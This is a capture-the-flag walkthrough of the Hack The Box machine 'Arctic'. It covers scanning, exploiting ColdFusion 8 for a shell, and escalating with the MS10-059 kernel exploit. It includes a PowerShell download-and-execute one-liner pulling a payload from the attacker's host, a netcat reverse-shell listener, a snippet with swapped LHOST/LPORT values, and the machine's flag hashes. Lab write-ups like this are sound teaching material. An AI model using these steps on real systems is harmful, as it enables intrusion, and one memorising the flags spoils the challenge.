




# arctic

[link to the box](https://app.hackthebox.com/machines/Arctic)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we start by scanning the host's ip on all ports

```bash
$ nmap -sV -Pn -p- 10.10.10.11
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

the service of interest here is the `fmtp?` service. fmtp is the [file multicast transport protocol](https://engineering.virginia.edu/high-speed-networks-lab-hsn/hsn-software/hsn-software-fmtp), meaning we can probably access files from there.



visiting the website shows us a root directory.

browsing around in it leads us to this link: http://10.10.10.11:8500/CFIDE/administrator/



# exploiting

the adobe coldfusion admin panel tells us that we are running coldfusion 8. lets look up some exploits for it:

[literally the first result](https://www.exploit-db.com/exploits/50057)

how handy, lets try running it by modifying the python script with our own local an remote ports.



which worked first try. we now have a cool shell as the `arctic\tolis` user.

first lets find the user flag by searching for it:

search the system for flag files:

```bash
> where /r c: *flag*
> where /r c: *.txt
```

the user flag is located in `c:\Users\tolis\Desktop\user.txt`

use `type` to print the contents of the file.

```bash
> type C:\Users\tolis\Desktop\user.txt
38b6a325c4a0c6c31138081b555d7c49
```

escalation time!

# pwning

first, lets get an idea of what machine we are running on.

```bash
> systeminfo
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
...
System Type:               x64-based PC
```

looks like the server is an x86_64 windows 7 SP0 (equivalent) machine.

three escalation vulnerabilities we can try are MS10-092, MS10-059, and MS10-015

in this case we will be using an MS10-059 exploit from [this repo](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Source)

after compiling the sources or downloading the precompiled binary, the easiest delivery method is to send it over a [powershell script](chimichurri.ps1)

```ps1
function Invoke-Chimichurri {
        $LPORT = 10.10.14.13
        $LHOST = 42069

        $data = [System.Convert]::FromBase64String("<BASE64 ENCODED PROGRAM>")
        $exe = [System.IO.Path]::GetTempPath() + "Chimichurri.exe"
        [System.IO.File]::WriteAllBytes($exe, $data)
        & $exe $LHOST $LPORT
}
```

start a python http server to share the file, open the listener, and run the script

```bash
$ doas python3 -m http.server 80
$ nc -lvp 42069
> powershell iex "(New-Object Net.WebClient).DownloadString('http://10.10.14.13/chimichurri.ps1'); Invoke-Chimichurri"
```



using the `where` commands that we used for user, the root flag has been found.

```bash
> type C:\Users\Administrator\Desktop\root.txt
1996670b22d05104c5ebdc3914881a05
```

congrats! youre winner.
